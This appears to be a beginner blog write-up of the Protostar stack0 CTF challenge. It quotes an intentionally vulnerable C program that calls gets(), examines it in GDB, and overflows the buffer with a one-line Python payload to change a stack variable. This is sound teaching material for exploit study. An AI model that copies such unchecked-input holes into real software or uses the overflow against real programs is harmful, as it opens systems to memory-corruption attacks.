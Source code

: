 ```yaml
---
title: Protostar Writeup - stack0
updated: 2018-07-24 21:00
---
```


## Protostar - stack0

This post is a writeup for the Protostack - stack0 challenge. Before continuing further, I strongly advice that you first try them out yourself.
Here's the [link](https://exploit-exercises.com/protostar/stack0/). The first challenge is simple for a person doing CTF's for a while. This challenge is actually mean't for beginners inorder to introduce them to CTF's.
I assume that if you got stuck here, you atleast have a VM running the Protostart iso, if not that's a good first challenge if you have never used VM's.

### stack0

If you read the description of the challenge you will see that all we have to do is modify a variable. Here's the attached code which is also present on the site.

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    modified = 0;
    gets(buffer);

    if(modified != 0) {
        printf("you have changed the 'modified' variable\n");
    } else {
        printf("Try again?\n");
    }
}
```

So let's analyze this code. We have some a variable called modified which we need to modify(ironic), note that modified is declared as volatile, this tells the compiler to not apply any optimizations to it. Then we have a buffer of 64 bytes.
Then we have modified set to 0 and we take some input. Now it's easy to see that there's no way to modify the modified variable(atleast not directly).
Now what options do we have? The only attack surface I could think of here is the `gets()` function. Looking at the man pages of it I came across something interesting in the bugs section.

> Never use gets()...impossible to tell...how many characters it will read...has been used to break computer security.

hmmm...interesting. Exploiting this has something to do with how memory is layed out. To keep things simple, when we declare a variable, it is reserved or stored on the stack. So if you understood what that means, buffer as well as modified should be on the stack.
And from the man pages we know that `gets()` has no limit on reading. So what happens if we read beyond 64 bytes? Let's try writing beyond 64 bytes. Let's fire up the GDB and take a look at what we have.

```Shell
$ gdb stack0
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483f4 <main+0>:	push   ebp
0x080483f5 <main+1>:	mov    ebp,esp
0x080483f7 <main+3>:	and    esp,0xfffffff0
0x080483fa <main+6>:	sub    esp,0x60
0x080483fd <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:	lea    eax,[esp+0x1c]
0x08048409 <main+21>:	mov    DWORD PTR [esp],eax
0x0804840c <main+24>:	call   0x804830c <gets@plt>
0x08048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:	test   eax,eax
0x08048417 <main+35>:	je     0x8048427 <main+51>
0x08048419 <main+37>:	mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:	call   0x804832c <puts@plt>
0x08048425 <main+49>:	jmp    0x8048433 <main+63>
0x08048427 <main+51>:	mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:	call   0x804832c <puts@plt>
0x08048433 <main+63>:	leave
0x08048434 <main+64>:	ret
End of assembler dump.
```

Nothing interesting here. We know that `[esp+0x5c]` is the modified variable just by looking at the assembly, since a 0 is moved into that location.
Let's set a break point just after the `gets()` call, run the program and take a look at what happens.

```Shell
(gdb) break *0x08048411
Breakpoint 1 at 0x8048411: file stack0/stack0.c, line 13.
(gdb) r
Starting program: /opt/protostar/bin/stack0
AAAAAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack0/stack0.c:13
...
(gdb) x/24wx $esp
0xbffff740:	0xbffff75c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff750:	0xb7fd7ff4	0xb7ec6165	0xbffff768	0x41414141
0xbffff760:	0x41414141	0x41414141	0xbf004141	0x080482e8
0xbffff770:	0xb7ff1040	0x08049620	0xbffff7a8	0x08048469
0xbffff780:	0xb7fd8304	0xb7fd7ff4	0x08048450	0xbffff7a8
0xbffff790:	0xb7ec6365	0xb7ff1040	0x0804845b	0x00000000
```

Let me explain what I did. I set a break point just after the `gets()` call because I want to get an idea of where on the stack the data is stored. 'A' in hex is `0x41`.
We print the first 24 (w)ords in he(x) format. You can see where our 'A's got stored. And if you take a closer look, towards the end you find the value of modified which is 0.
So what we need to do is overflow the input into the modified variable and we're done. Just by observation of the stack, we see that we require a minimum of 4 * 4 * 4 + 1 bytes of data, which is co-incidently one more byte than the buffer size. More would work too, but this is the minimum.
Let's write exploit this with a little help from python and pipes.

```Shell
$ python -c "print 'A' * 64 + 'B'" | ./stack0
you have changed the 'modified' variable
```

And there we have it, we have successfully modified the value of a variable, using a buffer overflow. Simple yet fundamental to understanding how not to write code.
I'll be posting more solutions in my free time. If you got this on your first try, way to go! If not, then remember 'Every expert was once a beginner'. Another little thing I would like to stress upon, is that you should keep questioning why it works the way it does. If you aren't, you aren't learning anything at all.

### Sites
[Protostar](https://exploit-exercises.com/protostar/)
[Phrack Magzine](http://phrack.org/issues/49/14.html)
[LiveOverflow](https://liveoverflow.com/)
